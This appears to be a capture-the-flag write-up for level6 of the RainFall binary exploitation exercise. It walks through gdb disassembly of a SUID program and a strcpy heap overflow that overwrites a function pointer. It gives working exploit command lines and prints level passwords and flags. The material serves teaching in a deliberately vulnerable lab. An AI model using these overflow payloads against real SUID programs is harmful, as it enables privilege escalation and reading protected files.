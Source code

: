 Login as `level6`.
```shell
┌──$ [~/42/2022/rainfall]
└─>  ssh 192.168.0.18 -p 4242 -l level6
level6@192.168.0.18's password: d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level6/level6
```
A `SUID` executable is located in the home directory.
```shell
level6@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6
```
By looking binary, three functions are defined.
1. `n()` function calls `system("/bin/cat /home/user/level7/.pass")`
2. `m()` function outputs a line "Nope" on `stdout`
3. `main()` which allocates 64 a 4 bytes, assign `m()` to a function pointer variable, calls `strcpy()` and finally calls function pointer.
```gdb
level6@RainFall:~$ gdb ./level6
(gdb) info functions
[...]
0x08048454  n
0x08048468  m
0x0804847c  main
[...]
(gdb) disassemble m
Dump of assembler code for function m:
   0x08048468 <+0>:	push   %ebp
   0x08048469 <+1>:	mov    %esp,%ebp
   0x0804846b <+3>:	sub    $0x18,%esp
   0x0804846e <+6>:	movl   $0x80485d1,(%esp) 
   0x08048475 <+13>:	call   0x8048360 <puts@plt>
   0x0804847a <+18>:	leave
   0x0804847b <+19>:	ret
End of assembler dump.
(gdb) x/s 0x80485d1
0x80485d1:	 "Nope"
(gdb) disassemble n
Dump of assembler code for function n:
   0x08048454 <+0>:	push   %ebp
   0x08048455 <+1>:	mov    %esp,%ebp
   0x08048457 <+3>:	sub    $0x18,%esp
   0x0804845a <+6>:	movl   $0x80485b0,(%esp)
   0x08048461 <+13>:	call   0x8048370 <system@plt>
   0x08048466 <+18>:	leave
   0x08048467 <+19>:	ret
End of assembler dump.
(gdb) x/s 0x80485b0
0x80485b0:	 "/bin/cat /home/user/level7/.pass"
(gdb) disassemble main
Dump of assembler code for function main:
   0x0804847c <+0>:	push   %ebp
   0x0804847d <+1>:	mov    %esp,%ebp
   0x0804847f <+3>:	and    $0xfffffff0,%esp
   0x08048482 <+6>:	sub    $0x20,%esp
   0x08048485 <+9>:	movl   $0x40,(%esp)
   0x0804848c <+16>:	call   0x8048350 <malloc@plt> # malloc(64)
   0x08048491 <+21>:	mov    %eax,0x1c(%esp)
   0x08048495 <+25>:	movl   $0x4,(%esp)
   0x0804849c <+32>:	call   0x8048350 <malloc@plt> # malloc(4)
   0x080484a1 <+37>:	mov    %eax,0x18(%esp)
   0x080484a5 <+41>:	mov    $0x8048468,%edx # edx = 0x8048468
   0x080484aa <+46>:	mov    0x18(%esp),%eax # eax = fnPointer
   0x080484ae <+50>:	mov    %edx,(%eax) # fnPointer = edx
   0x080484b0 <+52>:	mov    0xc(%ebp),%eax
   0x080484b3 <+55>:	add    $0x4,%eax
   0x080484b6 <+58>:	mov    (%eax),%eax
   0x080484b8 <+60>:	mov    %eax,%edx
   0x080484ba <+62>:	mov    0x1c(%esp),%eax
   0x080484be <+66>:	mov    %edx,0x4(%esp)
   0x080484c2 <+70>:	mov    %eax,(%esp)
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt> # strcpy(av[1], str)
   0x080484ca <+78>:	mov    0x18(%esp),%eax
   0x080484ce <+82>:	mov    (%eax),%eax
   0x080484d0 <+84>:	call   *%eax # fnPointer()
   0x080484d2 <+86>:	leave
   0x080484d3 <+87>:	ret
End of assembler dump.
```
SECURITY CONSIDERATIONS section on man page of `strcpy` indicates that the `strcpy()` can be misused in a manner which enables to change a running program's functionality through a buffer overflow attack.

By running executable with first argument containing 128 bytes, is seems that the value of function pointer is overwritten and program try to call something `0x41414141`.
```gdb
level6@RainFall:~$ gdb -q ./level6
Reading symbols from /home/user/level6/level6...(no debugging symbols found)...done.
(gdb) run $(python -c "print 'A'*128")
Starting program: /home/user/level6/level6 $(python -c "print 'A'*128")

Program received signal `SIGSEGV`, Segmentation fault.
0x41414141 in ?? ()
```
So, using address of `n()` function as argument it can be repeated n-times until it lay in right place.

Exploit and log on to the next level.
```shell
level6@RainFall:~$ for i in {0..100}; do ./level6 $(python -c "print '\x54\x84\x04\x08'*$i") | grep -v Nope && break; done
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
Or find offset using [BOF EIP Offset String Generator](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/)
```gdb
level6@RainFall:~$ gdb --args ./level6  Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Reading symbols from /home/user/level6/level6...(no debugging symbols found)...done.
gdb-peda$ run

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x41346341 ('Ac4A')
EBX: 0xb7fd0ff4 --> 0x1a4d7c
ECX: 0xbffff8c0 ("c9Ad0Ad1Ad2A")
EDX: 0x804a060 ("c9Ad0Ad1Ad2A")
ESI: 0x0
EDI: 0x0
EBP: 0xbffff678 --> 0x0
ESP: 0xbffff64c --> 0x80484d2 (<main+86>:	leave)
EIP: 0x41346341 ('Ac4A')
EFLAGS: 0x210202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41346341
[------------------------------------stack-------------------------------------]
0000| 0xbffff64c --> 0x80484d2 (<main+86>:	leave)
0004| 0xbffff650 --> 0x804a008 ("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
0008| 0xbffff654 --> 0xbffff868 ("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
0012| 0xbffff658 --> 0xb7fd0ff4 --> 0x1a4d7c
0016| 0xbffff65c --> 0xb7e5ee55 (<__cxa_atexit+53>:	add    esp,0x18)
0020| 0xbffff660 --> 0xb7fed280 (push   ebp)
0024| 0xbffff664 --> 0x0
0028| 0xbffff668 --> 0x804a050 ("Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41346341 in ?? ()
```
Using generated string of 100 bytes shows that offset is 72.
```sh
level6@RainFall:~$ ./level6 $(python -c "print 'A'*72 +'\x54\x84\x04\x08'" )
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
